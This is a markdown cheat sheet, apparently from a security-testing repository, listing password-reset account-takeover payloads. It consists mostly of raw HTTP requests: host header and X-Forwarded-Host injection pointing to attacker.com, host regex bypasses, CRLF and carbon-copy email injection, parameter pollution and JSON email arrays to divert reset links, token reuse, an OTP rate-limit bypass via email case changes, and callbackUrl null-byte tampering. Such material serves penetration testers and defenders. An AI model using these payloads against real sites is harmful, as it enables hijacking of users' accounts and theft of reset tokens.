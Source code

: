 ##### HOST HEADER INJECTION
````
POST /reset
HOST: attacker.com
````

##### OVERRIDE HOST HEADER
````
POST https://target.com/reset
HOST: attacker.com
````

##### AMBIGUATE HOST HEADER
````
POST /reset
HOST: target.com@attacker.com


HOST: target.com:@attacker.com
HOST: target.com: attacker.com
````
##### other techniques
````
POST @attacker.com/reset
HOST: target.com


POST /reset@attacker.com#
HOST: target.com
````
##### DOUBLE HOST
````
POST /reset
HOST: target.com
HOST: attacker.com


add space in the host
POST /reset
HOST: target.com
 HOST: attacker.com

````
##### X-FORWARDED-FOR
````
POST /reset
HOST: attacker.com
X-FORWARDED-HOST: attacker.com



POST /reset
HOST: attacker.com
X-FORWARDED-HOST: target.com


POST /reset
HOST: target.com
X-FORWARDED-HOST: attacker.com
Referer: https://attacker.com


POST /reset
HOST: target.com
X-FORWARDED-HOST: attacker.com
X-FORWARDED-FOR: attacker.com



POST /reset
HOST: target.com
X-FORWARDED-HOST: 0177.1
X-FORWARDED-FOR: 0177.1
````


##### Bypassing regex check on the host header
````
- target.com.attacker.com
- attacker.com/target.com
- attacker.com%23@target.com
- attacker.com%25%32%33@target.com


````
##### PARAMETER FUZZING USING BURP PARAMINER
 ````
 POST /reset
HOST: target.com

FUZZ 
 ````
 
 ##### SIGNING UP WITH TAMPERED EMAIL
 signup with email samsec@gmail.com.id.burpcollaborator.net and reset password for this email.
  we will recieve requests from internal server + SMTP connection details. and also we may get Internal headers + origin IP
   ````
   http://site.com/admin = (403)
   http://site.com/admin = (Headers + Origin IP = pwn)
   ````
 ````
 POST /reset
 
 email=test@123.burpcollaborator.net
 ````
 ##### EMAIL TAMPERING TO RECEIVE PASS RESET LINK IN ATTACKER EMAIL
 CRLF AND CARBON COPY INJECTION
 ````
 POST /reset
 HOST: target.com
 
 email=victim@gmail.com%0a%0dcc:attacker.com
 ````
 
 
 another methods
 - PARAMETER POLLUTION
```` email=victim@gmail.com&email=attacker@gmai.com````
 - SENDING TWO EMAIL AS ARRAY IN JSON AND ALSO CHANGING CONTENT-TYPE TO application/json(if the application is sending the email as json, then try sending the email as array)
    ```` 
    POST /reset
    HOST: target.com
    Content-Type: application/json
    
    
    {"email":["victim@gmail.com","attacker@gmail.com"]}

    ````
 - using separator , | OR  %20
  ```` email=victim@gmail.com,attacker@gmail.com ````
  
  #### APPENDING .JSON TO THE ENDPOINT
  this may give the token in response
  ````
  POST /reset.json
  HOST: target.com
  ````
  #### CRLF IN THE ROUTE
  ````
  POST /reset?%oa%odHost:attacker.com
  Host: target.com
  ````
#### CHANGING REQUEST METHOD
````
PUT /reset
host: target.com
Content-Type: application/json

email= victim@gmail.com
````
#### see response after sending email in reset endpoint , it may leak email and token

### /reset/changepass

put unused token of attacker@gmail.com after issuing reset pass in the field of victim's change pass request
````
POST /reset/change
Host: target.com

email=victim@gmail.com&token=[attacker_token]&old_pass=a&new_pass=b


````
#### Add Email parameter if there isn't email in request of reset/changepass
````
POST /reset/change
Host: target.com


added="email:victim@gmail.com"&token=token


````
### Observing the token that is generated for pass reset.
Send the password reset request link using intruder, so that the time duration between creating tokens is small and observe the difference in part of the pass reset.
Insert payload as  attacker@gmail.com, victim@gmail.com and run the intruder.
https://infosecwriteups.com/how-i-was-able-to-take-over-any-account-via-the-password-reset-functionality-ef1659f8b481 Read this article.

### Checking OTP function for password reset
Check out if the otp functions matches these steps
```
The OTP is a 4-digit code. (Can I bruteforce it? Maybe, if we are not rate limited.)
The OTP expires after 10 minutes or is invalidated after 3 incorrect attempts.
Before requesting a new OTP, the user must validate a captcha.
The OTP generation will cease after 5 new OTP requests.
```
The last step can be bypasssed by using upper and lower case email like generating 5 otp for samec@gmail.com and  5 for Samec@gmail.com .
Read this writeups for exploiting this scenario https://bhavukjain.com/blog/2023/07/08/account-takeover-custom-otp



### Exploiting JSON type request that contains some url in the request body which is reflected while creating password reset link.
When you see the request like
```
POST auth/reset


{"email":"samsec@gmail.com",
  "callbackUrl":"https://vulnerable.com"
}
```
We may be able to tamper the reset link by changing the callbackurl value. But there may be protection against some common attacks. One way you can do is inject nullbyte character but since json doesn't allow us to use url encoded null byte, we can bypass this by using unicode value. JSON RFC allows us to use unicode value in the key value. so final request is like
```
{"email":"samsec@gmail.com",
  "callbackUrl":"https://attacker.com\u0000@vulnerable.com"
}
```
This may bypass the issue. 
